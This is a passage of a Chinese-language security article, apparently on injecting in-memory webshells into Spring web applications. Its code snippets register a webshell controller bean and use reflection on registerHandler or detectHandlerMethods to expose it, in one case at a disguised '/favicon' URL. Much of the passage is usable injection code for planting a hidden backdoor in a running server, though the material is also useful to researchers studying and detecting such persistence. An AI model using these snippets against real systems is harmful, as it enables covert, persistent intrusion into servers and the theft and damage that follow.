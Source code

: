 相关示例代码和解释如下：

```
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```

**方法三**：detectHandlerMethods

参考上面的 HandlerMapping 接口继承关系图，针对使用 RequestMappingHandlerMapping 映射器的应用，可以找到它继承的顶层类

```
org.springframework.web.servlet.handler.AbstractHandlerMethodMapping
```

进入查看代码，发现其中有一个detectHandlerMethods 方法，代码如下：

```
protected void detectHandlerMethods(Object handler) `{`
    Class&lt;?&gt; handlerType = handler instanceof String ? this.getApplicationContext().getType((String)handler) : handler.getClass();
    final Class&lt;?&gt; userType = ClassUtils.getUserClass(handlerType);
    Set&lt;Method&gt; methods = HandlerMethodSelector.selectMethods(userType, new MethodFilter() `{`
        public boolean matches(Method method) `{`
            return AbstractHandlerMethodMapping.this.getMappingForMethod(method, userType) != null;
        `}`
    `}`);
    Iterator var6 = methods.iterator();
    while(var6.hasNext()) `{`
        Method method = (Method)var6.next();
        T mapping = this.getMappingForMethod(method, userType);
        this.registerHandlerMethod(handler, method, mapping);
    `}`
`}`
```

该方法仅接受handler参数，同样可以在 this.getApplicationContext() 获得的上下文环境中寻找名字为 handler 参数值的 bean, 并注册 controller 的实例 bean。

示例代码如下：

```
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("me.landgrey.SSOLogin").newInstance());
org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractHandlerMethodMapping.class.getDeclaredMethod("detectHandlerMethods", Object.class);
m1.setAccessible(true);
m1.invoke(requestMappingHandlerMapping, "dynamicController");
```
